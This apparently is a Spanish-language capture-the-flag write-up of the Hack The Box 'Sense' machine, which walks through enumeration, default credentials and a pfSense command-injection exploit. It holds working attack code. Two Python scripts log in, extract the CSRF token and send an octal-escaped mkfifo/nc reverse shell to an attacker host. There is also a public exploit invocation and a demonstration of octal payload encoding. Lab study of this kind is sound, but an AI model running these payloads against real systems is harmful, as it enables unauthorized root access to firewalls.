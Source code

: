 # Sense-HTB
Resolucion de la maquina

## NMAP

```
sudo nmap -sSV -p80,443 10.129.76.69 -oN scan

```
 Tenemos el puerto 80 y el 443 abieto.

 ## FFUF

Aunque se necesito hacer esto recursivamente y se tuvo que usar el Dirbuster

```
ffuf -r -fc 404 -t 100  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://10.129.76.69/FUZZ.txt 

```

## Dirbuster

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/1a524956-8a6f-4612-93a9-ed001a85aa0e)


![image](https://github.com/gecr07/Sense-HTB/assets/63270579/6e8a2471-2a37-4733-b3d1-3568191cb567)


Para encontrar cosas admito que es mejor esta herramienta. En este caso necesitabamos encontrar un txt.

```
dirbuster -u https://10.129.76.69 -t 20 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## searchsploit

```
searchsploit -x #examina
searchsploit -m # mueve

```

En el txt encontramos el usuario

```
####Support ticket###

Please create the following user


username: Rohit # cambiamos esta a minuscula rohit y como nos dice el defualt password ponermos el pfsense y listo!
password: company defaults
```

## RCE

Para buscar exploits aprendimos una cosa nueva poner entre comillas el cve por ejemplo: "CVE-2016-10709" (or Google will return others)

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/bd04aa38-a5ef-45c4-855a-cfa7e64179c2)

```
python3 43560.py --rhost 10.129.76.69 --lhost 10.10.14.10 --lport 4444 --username rohit --password pfsense

```

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/4b0b45f5-5fae-46ca-8f63-705d693ab69d)



Regresa una shell con privilegios de root no me dejo hacer ni full tty.

## Plus

Viendo un pcoo los writeups me di cuenta como funciona esta payload. por ejemplo para crear un payload mas o menos con esta tecnica.

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/514be4fb-928e-45e9-b484-04eccfc30656)


```
# Si pones lo decodifica auque sea base octal nose asi funciona 
printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'        
touch /tmp/0xdf

#Ahora si lo pasas a |sh|echo el echo solo mete un salto de linea.

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'|sh|echo

## Guarda los numeros octales decodificados en ese archivo

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146' | xargs echo -e > archivo_decodificado.txt

```

> https://0xdf.gitlab.io/2021/03/11/htb-sense.html


## Script 

De este script aprendi como poner break points (pdb.set_trace()) tambien usar el sleep y poner como una especie de nc a la escucha con pwn. Ojo en la payload escape los \ por eso van 2.

```python
#!/usr/bin/python3

#pip uninstall pyelftools -y
#pip install pyelftools==0.29

from pwn import * 

import requests
import pdb# break point
import signal#USas signal para capturar el CTRL+C
import sys
import urllib3, threading
import time# aqui se usa time.sleep
import re # explresiones regulares

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url="https://10.129.91.150/index.php"
rce_url="""https://10.129.91.150/status_rrd_graph_img.php?database=queues;guion=$(printf "\\055");ampersand=$(printf "\\046");echo $ampersand;rm ${HOME}tmp${HOME}f;mkfifo ${HOME}tmp${HOME}f;cat ${HOME}tmp${HOME}f|${HOME}bin${HOME}sh ${guion}i 2>${ampersand}1|nc 10.10.14.94 443 >${HOME}tmp${HOME}f"""
lport=443
#proxy_url = "http://127.0.0.1:8080"


def executeCommand():
        s=requests.session()
        urllib3.disable_warnings()
        s.verify = False
        r = s.get(main_url)#,proxies=proxies)
        #pdb.set_trace()#break point
        #print(r.text)<
        
        csrfToken = re.findall(r'name=\'__csrf_magic\' value="(.*?)"', r.text)[0]
        
        #print(csrfToken)

        post_data = {'__csrf_magic': csrfToken,'usernamefld':'rohit','passwordfld':'pfsense','login':'Login'}
        r= s.post(main_url,data=post_data)#,proxies=proxies)
        #pdb.set_trace()
        r=s.get(rce_url)
        #pdb.set_trace()



if __name__== '__main__':
#       time.sleep(10)
        try:
                print("Hola Mundo")
                threading.Thread(target=executeCommand, args=()).start()
        except Exception as e:
                log.error(str(e))
        shell=listen(lport,timeout=20).wait_for_connection()
        shell.interactive() 
```

Para usar requests con un proxy lo hice asi

```python

#!/usr/bin/python3


import requests
import pdb# break point
import signal#USas signal para capturar el CTRL+C
import sys
import urllib3
import time# aqui se usa time.sleep
import re # explresiones regulares

main_url="https://10.129.91.150/index.php"
rce_url="""https://10.129.91.150/status_rrd_graph_img.php?database=queues;guion=$(printf "\\055");ampersand=$(printf "\\046");echo $ampersand;rm ${HOME}tmp${HOME}f;mkfifo ${HOME}tmp${HOME}f;cat ${HOME}tmp${HOME}f|${HOME}bin${HOME}sh ${guion}i 2>${ampersand}1|nc 10.10.14.94 443 >${HOME}tmp${HOME}f"""

proxies = {
   'http': 'http://127.0.0.1:8080',
   'https': 'http://127.0.0.1:8080'
}

s=requests.session()
urllib3.disable_warnings()
s.verify = False

r=s.get(main_url, proxies=proxies)
#pdb.set_trace()
csrfToken = re.findall(r'name=\'__csrf_magic\' value="(.*?)"', r.text)[0]
post_data = {'__csrf_magic': csrfToken,'usernamefld':'rohit','passwordfld':'pfsense','login':'Login'}
#print(post_data)
r= s.post(main_url,data=post_data,proxies=proxies)


try:
	r=s.get(rce_url,proxies=proxies)
except Exeption as e:
	log.error(str(e))

```






































